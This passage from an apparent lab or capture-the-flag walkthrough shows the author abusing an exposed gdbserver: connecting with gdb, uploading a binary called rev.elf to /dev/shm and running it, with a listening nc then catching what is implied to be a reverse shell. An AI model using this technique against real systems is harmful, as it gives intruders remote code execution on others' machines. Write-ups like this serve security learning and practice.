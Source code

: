 

Next, I'll start debugging it locally:



    oxdf@hacky$ gdb -q rev.elf 
    Reading symbols from rev.elf...
    (No debugging symbols found in rev.elf)
    (gdb)



Now connect to the remote server:



    (gdb) target extended-remote 10.10.11.125:1337
    Remote debugging using 10.10.11.125:1337
    Reading /lib64/ld-linux-x86-64.so.2 from remote target...
    warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
    Reading /lib64/ld-linux-x86-64.so.2 from remote target...
    Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
    Reading /lib64/ld-2.31.so from remote target...
    Reading /lib64/.debug/ld-2.31.so from remote target...
    Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
    Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
    Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
    (No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
    0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2



With that connection, I can upload the binary:



    (gdb) remote put rev.elf /dev/shm/rev
    Successfully sent file "rev.elf".



Now I just need to set the remote debugging target to that file, and run
it:



    (gdb) set remote exec-file /dev/shm/rev
    (gdb) run
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program:  
    Reading /dev/shm/rev from remote target...
    Reading /dev/shm/rev from remote target...
    Reading symbols from target:/dev/shm/rev...
    (No debugging symbols found in target:/dev/shm/rev)
    [Detaching after fork from child process 33603]
    [Inferior 1 (process 33592) exited normally]



When that finishes, there's a connection at my listening `nc`:
